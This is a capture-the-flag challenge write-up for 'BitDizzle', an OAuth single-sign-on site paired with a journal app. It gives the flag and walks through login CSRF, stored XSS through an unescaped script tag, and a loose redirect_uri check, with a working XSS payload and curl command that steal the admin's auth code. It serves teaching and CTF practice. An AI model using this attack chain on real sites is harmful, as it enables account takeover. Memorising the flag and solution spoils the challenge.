 # BitDizzle

## Public Description

Flag: `ASV{m0re_lik3_N0AUTH_Am_i_r1GhT}`

A popular journal writing app just came out. Can you read `admin`'s journal?

https://bitdizzle.xyz/

(upload accounts/accounts.py and journal/journal.py to CTFd, but no other files)

## Design

This challenge is two websites: a single sign-on site (accounts.bitdizzle.xyz)
and a journal writing app (journal.bitdizzle.xyz). `accounts` acts as an OAuth
provider for `journal`.

These are both Flask apps, each with a sqlite database to store state.

### OAuth flow

When a user clicks "Login with OAuth" to log into the journal:

1. User requests `accounts/oauth_authorize?client_id=...&redirect_uri=https://journal/oauth_callback`
2. `accounts` generates an "auth code", and redirects the user to `journal/oauth_callback?code=<code>`
3. User requests `journal/oauth_callback?code=<code>`
4. `journal` requests `accounts/token` and passes its client secret and the user's code
  * The `client_secret` is intended to remain secret. Players aren't supposed
    to figure out how to send requests to this endpoint.
5. `accounts` responds to `journal` with the username for that code
6. `journal` responds to the user and sets a login cookie

```
| user |                | accounts |             | journal |
   |   /oauth_authorize      |                        |
   |  -------------------->  |                        |
   |   redirect to journal   |                        |
   |  <--------------------  |                        |
   |   /oauth_callback?code=<code>                    |
   |  --------------------------------------------->  |
   |                         |   /token (code=code)   |
   |                         |  <-------------------  |
   |                         |   username=<foo>       |
   |                         |  ------------------->  |
   |     success             |                        |
   |  <---------------------------------------------  |
   |                         |                        |
```

### Journal

The journal is a React app. The app's initial props are passed to the client
with an inline `<script>` tag in the initiar HTML. The script stores a big
JSON object with all the initial props in a global variable.

In case players make their own journals hard to use (eg. by creating `alert(1)`
XSS PoCs), there's a "Delete all journal entries" button.

### CSRF/XSS "victim" bot

The accounts page lets you submit links to a headless Chrome bot. The bot is
logged into both `accounts` and `journal` as `admin`.

The bot maintains a separate queue of URLs to visit per IP address of the
submitter. So if one CTF player submits lots of URLs to the bot, it will still
be able to visit other players' URLs.

### Deployment instructions

See deployment.md for the steps I took to deploy this to a Digital Ocean box.

## Solution

### Vulnerabilities we're going to exploit

There are 3 main problems with this site:

**An attacker can force a victim to log into the attacker's journal**

An attacker can make the first request in the OAuth flow, write down their code,
and trick a victim into making the second request with the attacker's code. The
victim will end up logged into the attacker's journal.

**XSS in the journal site, in the `initialProps` script tag**

If you create a journal entry with the title `</script><script>alert(1)//` and
reload, you'll get this HTML:

```
<script>window.initialProps = {"entries": [{"title": "</script><script>alert(1)//", "body": "...</script>`
```

Browsers parse HTML before they try to evaluate the JS in script tags. So to a
browser, the page looks something like this, and an alert box pops up:

```
<script>window.initialProps = {"entries": [{"title": "</script>
<script>alert(1)//", "body": "...</script>
```

**`accounts` allows redirects to any URI on `journals`**

Our goal is to intercept `admin`'s OAuth code, and log into their journal. Here
are the steps from an attacke's perspective:

### Exploit

The steps to log into `admin`'s journal are:

**1. Create a journal entry with XSS**

Create a journal entry with any title, and this text in the body. Avoid
refreshing the page, or you might "steal" one of your own auth codes instead of
admin's.

```
</script><script>if (window.location.search.indexOf('code') === -1) { window.location = 'https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https://journal.bitdizzle.xyz/'; } else { fetch('/entries/', {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify({title: 'stolen code', body: window.location.search})}); } //
```

You can't add any newlines, or the JSON serializer will replace them with `\n`.
Here's what that JS looks like with some more whitespace:

```
if (window.location.search.indexOf("code") === -1) {
  // Step 1: Send admin through the OAuth flow again, but with redirect_uri=/
  // instead of /oauth_callback
  window.location =
    "https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https://journal.bitdizzle.xyz/";
} else {
  // Step 2: When admin finishes that OAuth flow, they'll run your XSS payload
  // again with their auth code in their query params. Steal it by creating a
  // journal entry
  fetch("/entries/", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({
      title: "stolen code",
      body: window.location.search,
    }),
  });
}
```

**2. Force admin to log into your journal**

Get an auth code for your account by making a request to `/oauth_authorize`
without following the redirect.

2.1. Go to the `accounts` site, open your browser console, and copy the value of
     your `__Host-session` cookie.
2.2. Run this command in your termal, but replace `YOUR_SESSION` with your actual
     sesion cookie:

```
$ curl -I "https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&amp;"\
"redirect_uri=https%3A%2F%2Fjournal.bitdizzle.xyz%2Foauth_callback" \
-H "Cookie: __Host-session=YOUR_SESSION"
```

2.3. Copy the `Location` header (which should be a URL that contains
     `/oauth_callback`), and paste it into the "Submit a Link" form on the
     `accounts` site

**3. Retrieve admin's auth code**

Once admin visits your journal, your XSS should create a journal entry in your
journal containing their auth code.

In Chrome, you can visit `view-source:https://journal.bitdizzle.xyz/` to avoid
running your XSS payload against yourself.

You should see an entry that looks like:

```
{"title": "stolen code", "body": "?code=<admin code>"}
```

Copy the stolen code.

**4. Log into admin's journal**

Visit `https://journal.bitdizzle.xyz/oauth_callback?code=<admin code>`

> ### Flag
> `ASV{m0re_lik3_N0AUTH_Am_i_r1GhT}`
